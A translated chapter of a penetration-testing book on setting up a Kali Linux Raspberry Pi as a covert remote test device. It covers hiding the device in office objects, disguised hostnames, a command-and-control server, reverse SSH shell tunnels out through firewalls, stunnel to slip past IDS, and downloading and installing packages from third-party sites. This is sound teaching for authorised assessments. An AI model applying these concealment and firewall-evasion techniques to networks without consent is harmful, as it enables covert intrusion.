








# 第二章：准备树莓派

树莓派应该被视为一个性能不足的安全评估平台。这是因为它被设计为一个低成本、便携式计算机，主要面向教育工作者和爱好者。这个开放平台在计算能力上可能有限，但它确实提供了许多强大的用例，安全专业人员可以利用它进行渗透测试和其他服务。本章的重点将是如何准备运行 Kali Linux（或其他平台）的树莓派进行渗透测试。

本章将涵盖以下主题：

+   树莓派用例

+   指挥和控制服务器

+   为渗透测试做准备

+   超频

+   设置无线网卡

+   使用 Kali Linux 设置 3G USB 调制解调器

+   设置 SSH 服务

+   SSH 默认密钥和管理

+   通过 SSH 进行反向 shell

+   Stunnel

+   以一个例子结束

# 树莓派用例

树莓派是安全专业人员从大型分布式组织的远程站点收集信息的常见需求。许多人利用专门用于漏洞评估的商业工具来解决这种情况；然而，由于预算有限或供应商合作伙伴要求，您可能无法获得这些工具。这种情况的一个例子是，本书的作者们不得不参与一个包括世界各地多个地点的安全评估。对于这个项目，不可能到每个地点去提供本地渗透测试服务。为了克服这个问题，我们发送了配置了 Kali Linux 的树莓派设备到每个地点，并以非常实惠的价格远程评估了网络的漏洞。我们将在本章末尾更详细地介绍这个参与案例。

树莓派的另一个有价值的用例是当安全专业人员希望长时间留下设备在现场时。在先前的例子中，将高端系统运送并留在每个位置是不划算的。树莓派还具有隐蔽价值，通过其小巧的外形和对较大、更强大系统的适度功耗要求，可以作为便携设备。人们不太可能识别或篡改一个较小的、未知的黑匣子，比如隐藏在打印机电源线中的树莓派，而不是放在不起眼区域的随机笔记本电脑。对于黑盒测试来说，将树莓派隐藏在常见的办公用品如时钟、灯和打印机中是非常有用的。在本章中，我们将讨论如何通过使用一个或多个树莓派系统从集中攻击的角度利用远程位置，使这个概念更加有效。

以下图片显示了一个放置在猫钟中的树莓派：


# 指挥和控制服务器

正如我们在其他章节中所述，树莓派并不是一台强大的机器。为了克服这个弱点，最佳实践是以受控的方式捕获数据，或者在使用 Kali Linux 时利用离线计算。我们发现，如果不这样做，使用大多数攻击工具时会使处理器不堪重负，或者在查看捕获的数据时会迅速消耗有限的本地存储空间。我们将在第三章 *渗透测试* 的 *调整您的网络捕获* 部分中介绍过滤捕获的数据。

当计划远程访问多个树莓派系统时，我们建议设置一个中央**命令和控制**（**C&C**）服务器，而不是单独访问每个盒子。C&C 服务器应该是一个更强大的系统，如传统服务器，因此它可以专注于 CPU 密集型任务，如通过暴力破解密码。更重要的是，任务还可以包括使用 C&C 服务器执行实际的分析和利用，而不是在树莓派上本地执行。一个例子是，进行**钓鱼**攻击，将用户流量发送到树莓派，然后再发送到 C&C 服务器进行漏洞和利用分析。

# 准备进行渗透测试

我们在第一章中介绍的 Kali Linux ARM 镜像已经针对树莓派进行了优化。然而，我们发现建议执行一些额外的步骤，以确保您在最稳定的模式下使用 Kali Linux，以避免使树莓派崩溃。具体步骤如下：

1.  第一个建议的步骤是执行操作系统更新，详细描述在第一章中。我们不会在这里重复这些步骤，所以如果您还没有更新您的操作系统，请返回第一章，并按照说明进行操作。

1.  您应该执行的下一步是正确识别您的树莓派。Kali Linux 镜像附带一个通用主机名。要更改主机名，请使用`vi`编辑器（尽管您可以使用任何您喜欢的编辑器；即使您是 nano 的粉丝，我们也不会太苛刻），并使用`vi /etc/hostname`命令，如下面的屏幕截图所示：

这个文件中应该只有您的主机名。您可以从我的例子中看到，我正在将我的主机名从`Kali`更改为`RaspberryPi`，如下面的屏幕截图所示：


1.  您还需要编辑`/etc/hosts`文件以修改主机名。这也可以使用`vi`编辑器完成。您需要确认您的主机名是否在`hosts`文件中正确设置。下面的屏幕截图显示了我如何将默认主机名从`Kali`更改为`RaspberryPi`。

1.  确保在编辑后保存文件。保存后，重新启动系统。您会注意到主机名已更改，并将反映在新的命令提示符中。

### 提示

在黑盒测试环境中，使用 HP Jetdirect 等常见名称作为融入网络的手段可能是有益的。

# 超频

树莓派超频可以提高性能。这样做的风险也可能大大缩短硬件的寿命。超频可能需要更多的电源来供应树莓派，所以如果你的电源来源不足，超频可能会导致问题。我们在超频树莓派时遇到了一些问题，导致 microSD 卡和操作系统出现了损坏的情况。

### 注意

只有在您能够接受可能永久损坏系统的风险时，才对树莓派进行超频。

要超频树莓派，您可以使用 raspi-config 应用程序进行高级硬件操作。不幸的是，这个应用程序不随 Kali Linux 镜像一起提供，需要一些配置。不用担心，我们已经为您制定了以下步骤，让您可以轻松跟随。它们是：

1.  从您的树莓派命令行中输入：

```
wget http://www.drchaos.com/wp-content/uploads/2014/09/raspberry_pi_overclock_files.zip

```

### 提示

您还可以使用官方链接下载必要的文件：

+   [`rageweb.info/2013/06/16/updated-raspi-config-in-kali/`](http://rageweb.info/2013/06/16/updated-raspi-config-in-kali/)

+   [`rageweb.info/2013/11/07/bootconfig-txt-in-kali/`](http://rageweb.info/2013/11/07/bootconfig-txt-in-kali/)

以下截图显示了上述命令的启动：


1.  您需要使用`unzip`命令解压这些文件，如以下截图所示：

1.  接下来，转到刚刚解压缩的目录，您将看到其中有一些文件，如以下截图所示：

1.  在终端窗口中输入以下命令：

```
dpkg -i triggerhappy_0.3.4-2_armel.deb
dpkg -i lua5.1_5.1.5-4_armel.deb
dpkg -i raspi-config_20121028_all.deb

```

现在，您将能够启动 raspi-config 实用程序。该实用程序将让您控制树莓派上一些非常特定的硬件功能。正如前面的警告所述，只有在您绝对知道自己在做什么时才应该更改这些内容。

我们个人发现在 1000 MHz 下运行我们的树莓派 B+没有问题。您的情况可能会有所不同，如果这最终导致对您的树莓派造成一些永久性损害，也不要感到惊讶。这也会使您可能拥有的任何保修失效。

以下截图显示了**Raspi-config**菜单：



我们的具体配置如下：

+   **arm_freq** 是 `1000`

+   **gpu_freq** 是 `400`

+   **sdram_freq** 是 `500`

+   **over_voltage** 是 `6`

+   **gpu_mem** 是 `128`

在更改硬件设置后，您应该从命令行中发出`dmesg`命令来检查是否有任何错误日志。我们发现大多数配置都会将 GPU 频率设置为 500 MHz；然而，几天后我们在系统中不断看到来自`dmesg`输出的错误。我们发现将其降低到 400 MHz 后就没有问题了。

# 设置无线网卡

当您为树莓派购买 Wi-Fi 适配器时，您需要确保它不仅适用于树莓派，而且适用于 Kali Linux。幸运的是，我们使用的几乎每个 Wi-Fi 适配器都适用于树莓派和 Kali Linux。在本书中，我们使用的是 CanaKit Wi-Fi dongle，如下图所示：


CanaKit 制造了一个非常受欢迎的树莓派套件，其中包含了这个版本的 Wi-Fi 适配器。您也可以单独购买适配器。如果您需要购买单独的网卡，请确保它是与 Debian Linux 兼容的。

### 提示

兼容卡的一个很好的资源是[`elinux.org/RPi_USB_Wi-Fi_Adapters`](http://elinux.org/RPi_USB_Wi-Fi_Adapters)。

连接 Wi-Fi 适配器后，您应该首先验证系统是否正常运行。您可以通过在终端窗口中输入`iwconfig`命令来进行验证，如以下截图所示：



您应该看到一个代表您的新无线接口的`wlan0`接口。下一步是启用该接口。我们通过在终端窗口中输入`ifconfig wlan0`命令，然后跟随以下截图中显示的`up`关键字来完成这一步骤：


此时，您的无线接口应该已经准备好扫描区域内的无线网络。这将使我们能够测试无线网卡是否正常工作，并评估区域内的无线频谱。我们将通过发出`iwlist wlan0 scanning`命令来完成这一步骤，如以下截图所示：


### 提示

重要的是要记住，您识别到的大多数无线网络都将在 2.4 GHz 范围内。这是因为大多数常见的适配器都是 2.4 GHz 802.11 b/g。根据您的需求，您可能需要更换适配器。

`iwlist wlan0 scanning` 命令将显示区域内发现的接入点的 SSID 和 MAC 地址。您可以在以下截图中看到，我们扫描到了一个名为`Wireless Lab`的网络，其 MAC 地址为`0E:18:1A:36:D6:22`。您还可以看到 AP 正在传输的 Wi-Fi 信道，即`信道 36`。



我们现在已经在运行 Kali Linux 的树莓派上设置了无线网络。

# 在 Kali Linux 上设置 3G USB 调制解调器

您可以在 Kali Linux 上使用 3G USB 调制解调器卡，并通过蜂窝网络连接到您的树莓派，以进行隐秘的远程访问。每张卡的制造方式略有不同，因此基于 3G 卡的类型和服务提供商的设置可能会有所不同。我们建议使用**MiFi**（**移动 Wi-Fi**的缩写）热点，并通过 Wi-Fi 适配器连接 Kali Linux；但是，如果您想使用 3G USB 调制解调器，请确保它与 Debian 兼容。

在我们的下一个示例中，我们使用华为 3G USB 调制解调器连接卡。这是一张能够在全球大多数频率上工作的 3G GSM 卡。

以下是设置此卡的步骤：

1.  打开一个终端窗口，输入以下命令：

```
wget http://www.ziddu.com/download/22764375/3gusbmodem.zip.html

```

1.  使用`unzip`命令解压文件。

1.  在您刚解压缩的目录中进行更改。

1.  通过输入`chmod +x 3gusbm*`将文件设置为可执行。

1.  通过输入`./3gusbmodem –interactive`来运行脚本。

1.  脚本需要几分钟才能运行，请耐心等待。请在提示时选择**Kernel**模块。

您需要从您的移动提供商中选择**接入点名称**（**APN**）。您可能还需要了解您的移动提供商的 APN 登录的用户名和密码。

### 提示

有时不需要用户名和密码。如果是这种情况，请为用户名和密码输入任何内容。即使您的移动提供商不需要用户名和密码，也应该这样做。

当过程完成后选择**确定**。一分钟后，您应该看到已成功连接到 3G 网络。

# 设置 SSH 服务

**安全外壳**（**SSH**）允许您从远程位置完全访问树莓派上的 Kali Linux 操作系统。这是使用命令行管理 Linux 系统的最常见方式。由于大多数渗透测试练习不需要 Kali Linux GUI，我们建议您尽可能使用 SSH 或命令行实用程序。我们发现一些 Kali Linux 的安装已启用了 SSH，而其他一些可能需要您安装 OpenSSH 服务器。

您应该首先验证 SSH 服务是否已安装。输入`service --status-all`命令来检查 SSH 服务是否正在运行。如果您看到如下截图中所示的**+**，则一切正常。如果您看到**-**符号，则需要安装 OpenSSH 服务器。



要安装 OpenSSH 服务器，请打开命令行终端，输入`apt-get install openssh-server`以安装 SSH 服务。您需要通过发出`service ssh start`命令来启动 SSH 服务，如下截图所示：


启用 SSH 服务后，应该在重新启动后启用 SSH 服务。为此，首先使用`update-rc.d -f ssh remove`命令删除 SSH 的运行级设置，如下截图所示：


接下来，使用`update-rc.d -f ssh defaults`命令加载 SSH 默认设置，如下截图所示：


现在，您应该在 Kali Linux 系统上永久启用 SSH。您可以在任何时候重新启动系统，而无需重新配置系统以运行 SSH。

# SSH 默认密钥和管理

此时，您已经准备好通过 SSH 远程管理树莓派。这很好；但是，默认安装的密钥对对于 OpenSSH 的每个其他默认安装都是非常可预测的。虽然这是可选的，但最佳做法是更改默认密钥。毕竟，如果您的渗透测试机器被黑客入侵，这将是令人尴尬的。

以下是为 Kali Linux 系统创建新 SSH 密钥的步骤：

### 注意

确保您使用键盘和控制台进行以下步骤。不要尝试在现有的 SSH 会话中执行以下步骤。

1.  通过在终端或命令行中输入以下内容来移动默认的 SSH 密钥：

```
cd /etc/ssh/
mkdir default_kali_keys
mv ssh_host_* default_kali_keys/

```

1.  使用以下命令生成新的密钥，并观察提示：

```
dpkg-reconfigure openssh-server
Creating SSH2 RSA key; this may take some time ...
Creating SSH2 DSA key; this may take some time ...
Creating SSH2 ECDSA key; this may take some time ...
[ ok ] Restarting OpenBSD Secure Shell server: sshd.

```

以下屏幕截图显示了前面命令的启动：


最后一步是使用`service ssh restart`命令重新启动 Kali Linux 系统上的 SSH 服务。

# 通过 SSH 进行反向 shell

我们已经讨论了在远程位置使用树莓派的优势。需要考虑的重要事情是，一旦将树莓派放置在目标网络上，您应该如何控制树莓派。最明显和灵活的方式是通过 SSH 连接到 Kali Linux。

由于 Kali Linux 是一个功能齐全的 Linux 操作系统，您可以通过 SSH 控制整个环境；但是，您的传入 SSH 连接可能会被防火墙或其他安全解决方案阻止。许多组织都采取了安全措施，阻止传入连接，以防止其网络中的后门。在**白盒**评估中，您可能可以明确地打开防火墙，以允许 SSH 连接到您的树莓派，如下图所示。坏消息是，即使从政策上讲这是可能的，但在处理多个站点并受到多个管理控制时，可能难以实现。反向 SSH 是管理运行 Kali Linux 的树莓派的一个很好的替代方法。

在反向连接中，客户端连接并启动与服务器的连接，而不是服务器连接到客户端。在两种情况下，服务器控制客户端。这与许多后门程序的技术相同。对于我们的目的，我们将将其用作管理实用程序。

### 注意

许多入侵检测和预防解决方案可以根据网络流量的不同来检测基于 SSH 的连接，而不管端口如何。例如，使用端口 443 仍然会与常见的 HTTPS 流量不同。



我们将在`ssh`命令中使用`R`开关来创建到监听器的反向连接。监听器是接受反向 SSH 连接的设备。在我们的情况下，C&C 服务器是监听器。在远程主机（树莓派）上使用的命令的语法是`ssh -R [bind_address:]port:host:hostport`。

`R`开关定义了远程端将连接的端口，或者它将如何启动连接。换句话说，我们需要选择一个我们的远程树莓派能够连接的端口。大多数组织没有严格的出站过滤策略，这使得这种方法比标准 SSH 连接更有效。我们发现常见的开放端口是 TCP 端口 22、80、443 或 53，这意味着客户端可能能够自由地使用这些端口连接到外部世界。

### 注意

诸如下一代防火墙、下一代**IPS**（入侵防范系统的缩写）和高级代理服务器等严格的出站协议检查设备可能会阻止这些类型的连接。

**hostport**是您的树莓派上设置用于监听的端口。在我们的情况下，我们运行一个 SSH 服务器，因此默认情况下 hostport 将是`22`。您可以将默认端口更改为更隐蔽的端口，或者利用 stunnel，这将在本章中介绍。总之，端口将是 TCP 端口，服务器正在接受来自树莓派的传入连接。hostport 是服务器运行 SSH 服务的端口。

在我们的树莓派示例中，我们将输入以下命令：

```
ssh -fN -R 7000:localhost:22 username@ip-address-of-your-command-and-control-server
ssh -fN -R 7000:localhost:22 root@192.168.162.133

```

这假设从我们的树莓派连接的网络允许端口`7000`出去。如果不起作用，请尝试不同的端口。大多数组织将允许出站端口`443`，如下图所示：


要在您的树莓派上尝试不同的端口，请使用以下命令：

```
ssh -fN -R 443:localhost:22 root@192.168.162.133

```

在您的 C&C 中央服务器上，打开命令行终端并输入以下命令：

```
ssh root@localhost -p 443

```

您将被提示输入 Kali Linux 树莓派的 root 密码。您可以从最后一个命令行示例中看到，命令提示符已更改。我们现在在我们的远程服务器上，并且完全控制我们的树莓派，如下图所示：



### 注意

您需要确保 OpenSSH 服务器已安装并正在运行，否则此过程将失败。您很可能会看到连接被拒绝的错误消息。同样重要的是，您已经修改了启动变量，以便在重新启动后您的树莓派上运行 SSH。

这种技术称为反向 shell 隧道。选择任何端口作为您的源端口，例如端口`53`，这是 DNS 的相同端口，或端口`80`以使用 HTTP 的相同端口。重要的是要记住，更改端口号并不一定意味着您正在更改底层协议。

# Stunnel

许多管理员将使用 IDS/IPS 等检测技术来检测和阻止开放 VPN 连接。绕过这一点的一种方法是利用 stunnel。Stunnel 通过在另一个 SSL 封套中隐藏来创建 TCP 客户端和服务器之间的安全通信。这是通过使用行业标准的加密库（如 OpenSSL）在远程客户端和服务器之间充当 SSL 加密包装器来实现的。Stunnel 之所以很酷，是因为它为常用的守护进程（如 POP2、POP3 和 IMAP 服务器）添加了 SSL 功能，而无需更改程序代码。

要使用 stunnel，您首先需要使用`apt-get install stunnel4 –y`命令下载代码，如下图所示：


您可能会收到 stunnel 的最新版本已经安装的消息。

您需要在`/etc/stunnel/`目录中创建一个名为`stunnel.conf`的文件。您可以使用您喜欢的文本编辑器，如 nano 或`vi`来创建文件。

以下内容将被配置并输入到`stunnel.conf`文件中。请注意，您可以将端口更改为更适合您的内容：

```
client = no
[squid]
accept = 8888
connect = 127.0.0.1:3128
cert = /etc/stunnel/stunnel.pem

```

以下屏幕截图显示了`stunnel.conf`文件中的配置：


接下来，您需要使用以下命令生成您的私钥：

```
cd /etc/stunnel/
openssl genrsa -out key.pem 2048
openssl req -new -x509 -key key.pem -out cert.pem -days 1095
cat key.pem cert.pem >> /etc/stunnel/stunnel.pem
sudo bash
cat server.key > server.pem && cat server.crt >> server.pem
chmod 400 /etc/stunnel/server.pem

```

安装完成后，您需要使用`sudo nano /etc/default/stunnel4`命令配置 stunnel。

这将打开`.conf`文件。将`enable = 0`更改为`enable = 1`。接下来，打开一个名为`stunnel.conf`的文件，并将以下配置添加到文件中：

```
sudo nano /etc/stunnel/stunnel.conf
sslVersion = all
options = NO_SSLv2
cert = /etc/stunnel/server.pem
pid = /var/run/stunnel.pid
output = /var/log/stunnel
[openvpn]
client = no
accept = 993
connect = 34567

```

然后，通过以下命令在树莓派上添加防火墙设置，创建`firewall.sh`文件：

```
Sudo nano /usr/local/bin/firewall.sh
Iptables –A INPUT –p tcp –dport 993 –j ACCEPT

```

下一步是通过发出以下命令重新启动 stunnel 服务：

```
/etc/init.d/stunnel4 restart

```

最后一步是通过发出`apt-get install squid3 –y`命令在 Kali Linux 树莓派上安装 Squid 代理。

# 安装 Stunnel 客户端

现在我们需要安装一个 stunnel 客户端。我们可以通过下载 Windows stunnel 客户端应用程序来完成，该应用程序可在[`www.stunnel.org/downloads.html`](https://www.stunnel.org/downloads.html)上获得。

以下图像显示了一个 stunnel-installer 可执行文件图标：

安装 Stunnel 客户端

安装完成后，在 Windows 上打开 stunnel 安装目录（通常位于`C:\Program Files\stunnel`）。

将您在 Kali 上创建的`stunnel.pem`证书复制到 Windows 客户端的同一目录中。

然后，您应该打开`stunnel.conf`文件，并用以下内容替换其中的内容（请调整您可能已从我们的示例更改的任何端口设置）：

```
cert = stunnel.pem
client = yes
[squid]
accept = 127.0.0.1:8080
connect = [Server's Public IP]:8888

```

保存并关闭文件。接下来，运行`stunnel.exe`应用程序。您将看到配置页面显示：



现在，您可以使用配置的`accept`参数中指定的**IP 地址**和**端口**安全地连接到您的 Raspberry Pi：



# 用一个例子来总结

回到本章开头的例子，让我们看看本章涵盖的主题如何应用于现实世界。回顾一下情况，我们有一个客户需要在多个国际地点提供价格实惠的现场渗透测试服务。为了应对这一挑战，我们组装了一个成本不到一百美元的 Raspberry Pi 托管 Kali Linux 套件，每个地点都有一个。我们把一个套件寄到每个地点，并让当地的人把 Raspberry Pi 连接到当地的网络。连接的方法和我们运行的工具将在下一章中介绍。

每个当地的站点都不知道我们的服务参与，所以我们不得不绕过现有的安全措施，比如配置为阻止出站连接的防火墙。为了做到这一点，我们在邮件端口上设置了 stunnel，并从运行 Kali Linux 的 MacBook 上访问了所有的 Raspberry Pi 套件。这为我们提供了每个 Raspberry Pi 的集中式命令和控制点，以及一个卸载需要大量处理的任何东西的方法。在这一点上，我们开始从美国的家庭办公室的每个 Raspberry Pi 上发动各种攻击。

这种方法的总成本与旅行和现场服务收费相比，是根据最初的预算期望而定的。客户很乐意为每个站点的硬件成本支付几百美元，因为我们对建设和运输的时间有所涨价。除此之外，我们还收取了我们的服务费，就是这样，使整个项目既实惠又成功。

# 总结

在本章中，您学会了如何定制运行 Kali Linux 的 Raspberry Pi，用于渗透测试环境。我们介绍了调整性能和限制使用命令行配置的 GUI 工具的最佳实践。

一个主要的问题是如何设置一个远程 C&C 服务器，以卸载 Raspberry Pi 的所有可能的任务，以及导出数据（导出数据在第三章中有所涵盖，*渗透测试*）。这包括建立 Raspberry Pi 和 C&C 服务器之间的通信。我们使用 SSH、HTTPS 和其他类型的隧道来做到这一点。我们还介绍了如何处理将 Raspberry Pi 放在防火墙后，并仍然能够使用反向 shell 隧道管理它。

在本章之后，你应该准备开始你的渗透测试。在下一章中，我们将介绍如何从托管 Kali Linux 的 Raspberry Pi 执行渗透测试练习。
